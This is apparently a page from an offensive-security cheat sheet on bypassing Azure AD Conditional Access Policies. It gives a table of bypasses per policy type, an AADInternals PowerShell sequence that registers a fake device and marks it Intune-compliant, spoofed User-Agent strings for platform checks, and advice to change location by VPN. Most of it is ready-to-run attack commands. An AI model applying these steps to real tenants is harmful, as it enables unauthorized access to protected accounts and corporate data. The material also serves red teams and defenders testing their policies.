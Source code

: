 # Azure AD - Conditional Access Policy

Conditional Access is used to restrict access to resources to compliant devices only.

* Enumerate Conditional Access Policies: `roadrecon plugin policies` (query the local database)

| CAP                       | Bypass  |
|---------------------------|---------|
| Location / IP ranges      | Corporate VPN, Guest Wifi |
| Platform requirement      | User-Agent switcher (Android, PS4, Linux, ...) |
| Protocol requirement      | Use another protocol (e.g for e-mail acccess:  POP, IMAP, SMTP) |
| Azure AD Joined Device    | Try to join a VM (Work Access)|
| Compliant Device (Intune) | Fake device compliance |
| Device requirement        | / |
| MFA                       | / |
| Legacy Protocols          | / |
| Domain Joined             | / |


## Bypassing CAP by faking device compliance

```powershell
# AAD Internals - Making your device compliant
# Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache
# Join the device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
# Marking device compliant - option 1: Registering device to Intune
# Get an access token for Intune MDM and save to cache (prompts for credentials)
Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
# Join the device to Intune
Join-AADIntDeviceToIntune -DeviceName "SixByFour"
# Start the call back
Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
```

## Bypassing CAP with device.trustType

The trustType property is an internal attribute that defines the relationship between the device and Azure AD.
When the condition of CAP is `device.trustType -eq "<TYPE>"`, the values can be:

* `AzureAD`: Azure AD joined devices
* `Workplace`: Azure AD registered devices
* `ServerAD`: Hybrid joined devices


## Bypassing CAP with user agent

There are several devices you can use to authenticate and interact with a service.
Try several `User-Agent` to get access to the resources:

* Windows: `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 GLS/100.10.9939.100`
* Linux: `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 uacq`
* macOS: `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 uacq`
* Android: `Mozilla/5.0 (Linux; Android 13) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.117 Mobile Safari/537.36`
* iOS: `Mozilla/5.0 (iPhone; CPU iPhone OS 15_3 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/98.0.4758.85 Mobile/15E148 Safari/604.1`
* WindowsPhone: `Mozilla/5.0 (Windows Phone 10.0; Android 4.2.1; Microsoft; Lumia 650) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.85 Safari/537.36`


## Bypassing CAP with location

Try different IP locations using a VPN.